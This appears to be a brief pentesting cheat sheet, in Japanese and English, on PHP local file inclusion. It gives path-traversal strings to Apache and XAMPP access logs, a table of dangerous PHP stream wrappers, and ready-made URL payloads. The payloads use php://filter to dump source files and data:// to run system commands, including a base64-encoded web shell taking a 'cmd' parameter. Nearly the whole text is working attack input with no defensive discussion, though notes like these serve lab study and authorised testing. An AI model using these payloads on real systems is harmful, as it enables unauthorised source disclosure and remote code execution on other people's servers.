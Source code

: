 # LFI
## Apache Log path

apache log 
```
/var/log/apache2/access.log

↓relative path:
../../../../../../../var/log/apache2/access.log
```

xampp apache log
```
C:\xampp\apache\logs\access.log

↓relative path:
../../../../../../../xampp/apache/logs/access.log
```

## PHP Wrapper
Wrapperリスト

| ラッパー         | 危険な理由                 |
| ------------ | --------------------- |
| php://filter | PHPファイルを読める（実行回避可能）   |
| data://      | 任意コードを埋め込める（RCE）      |
| php://input  | POSTデータ内のPHPコードを読み込める |
| phar://      | オブジェクトインジェクション＋RCE    |

### php://filter
phpファイルの中身をみる
```
http://target.site/index.php?page=php://filter/convert.base64-encode/resource=login.php
```
### data:// (RCE snippet)
text/plain
```
http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>
```

base64
```
http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls
```